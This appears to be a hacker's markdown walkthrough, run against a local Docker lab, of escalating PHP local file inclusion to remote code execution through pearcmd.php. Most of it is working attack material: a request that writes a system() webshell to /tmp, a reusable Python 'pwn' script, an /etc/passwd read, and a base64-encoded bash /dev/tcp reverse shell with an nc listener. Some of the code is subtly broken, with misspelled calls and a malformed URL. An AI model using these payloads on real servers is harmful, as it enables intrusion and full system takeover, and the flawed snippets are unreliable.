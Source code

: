 ```yaml
---
status: done
---
```


# Info and prereqs
- This only works on php version __<7.3__ 
- demo was performed on a docker instance
- LFI needs to be found first to get an RCE
# Build
To build the docker image, run:

```bash
docker build -t phplfi2rce .
```

# Run 
To run the docker instance, run:
```bash
docker run -p 8000:8000 phplfi2rce
```

# pwn tha box
- Now  open browser and go to
```http
http://localhost:8000
```
It will load normally, now try:
```http
http://localhost:8000?file=/etc/passwd
```
__LFI__ _sleek_...
- Now go to `phpinfo.php` on the page and search `$_SERVER['argv']` config variable.
This hold an array containing the url variables supplied by the user.
- Try supplying a query parameter like `?killer=eren`, and see it reflect
- `pearcmd.php` is located at  `/usr/lib/php/pearcmd.php`, you can use it invoke php functions using a command: `config-create` and supply the file path to `pearcmd.php` and the args of `function` and `dext file path`
- Try on thy burp

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=echo(pwned)?>+/tmp/pwned.php
```
- This could work, but not always. So a better alt is to script the whole processs with python or use `curl` with som e variables to run some system commands on the docker instance, like:
```python 
# do the imports, start connection and all that stuff
...

cmd = "<?=die(system($_GET['c']))?>" # wrapping everything in the die() func prevents weird php stuff from hapenning
path = f"/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/{cmd}+/tmp/pwned.php"
connection.request("GET", path)

response = response.read()

...
```
- save this python file - as maybe `pwn.py` and run it anytime we want to pwn.
- now, on the docker instance, verify:
```bash
docker ps # to get the docker instance id

docker exec -it <instance_id> /bin/bash # to get a shell from the instance so we can verify

ls /tmp/ # and you shall find your `pwned.php` file
cat /tmp/pwned.php # this would contain the malcode that runs the RCE, when we supply our commands that is
```
- now go to
```http
http://localhost/?file=/tmp/pwned.php
```
- This should show you some error about _system() not able to run commands because arguments aren't passed_. But thats good news.
- Now try:
```http
http://localhost/?file=/tmp/pwned.php?c=id
```
and __BOOM__ ==LFI 2 RCE== , we get the results of the `id` linux command.

Now we can feel free to escalate this to wetf we want, _and we are probably to drop into a root shell_ `¶(^-÷)`

--- 
some trick to get a `reverse shell` tho.
- go to [Revshells](https://www.revshells.com/) & grab a rev shell command; lets say
```bash
sh -i >& /dev/tcp/<ip>/<port> 0>&1
```
- use `bash -c` to run it (safer), base64 encode it.
```bash
echo 'bash -c "sh -i >& /dev/tcp/<ip>/<port> 0>&1"' | base64 -w 0
```
- copy the output and make a pwn cal from your `pwn.py`
```python

import urllib.parse 
...

payload = urllib.parse.qoute('') # paste your base64 encoded payload
payload_path = f"/index.php?file=/tmp/pwned.php&c=echo {payload}|base64 -d"

connection.request.("GET", payload_path)

...
```
- now listen on hacker box at `<port>` from revshell:
```bash
nc -lnvp <port>
```
- run `pwn.py` & __BOOM__, __LFI-RCE-revshell__ `¶(^¬+)`


---
#vulns #lfi2rce  #php 